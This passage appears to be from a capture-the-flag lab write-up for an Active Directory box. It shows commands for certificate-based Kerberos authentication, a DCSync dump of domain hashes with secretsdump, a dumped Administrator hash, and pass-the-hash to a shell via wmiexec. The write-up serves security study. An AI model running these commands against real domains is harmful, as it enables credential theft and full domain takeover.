 ```
python3 gettgtpkinit.py -pfx-base64 $(cat cert.p12) -dc-ip 10.10.117.13 cicada.vl/'DC-JPQ225$' dc.ccache
```

<img src="attachments/bc1530628723a50a69a2b48424bf0514.png" />

Exported the resulting ticket to perform a DCSync attack using `secretsdump` and was able to dump all the hashes from `ntds.dit` and obtain the administrator's hash.

```
secretsdump.py -k -no-pass cicada.vl/dc-jpq225\$@cicada.vl@dc-jpq225.cicada.vl -just-dc
```

<img src="attachments/ee47a1fd668b48e01d0969f835c6f6cb.png" />

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:85a0da53871a9d56b6cd05deda3a5e87:::
```

Retrieved the TGT of the administrator, then gained a shell through `wmiexec` and obtained the root flag.

```
impacket-getTGT cicada.vl/Administrator@DC-JPQ225 -hashes :85a0da53871a9d56b6cd05deda3a5e87
```

```
export KRB5CCNAME=Administrator@DC-JPQ225.ccache
```

```
impacket-wmiexec cicada.vl/administrator@DC-JPQ225 -k -no-pass
```
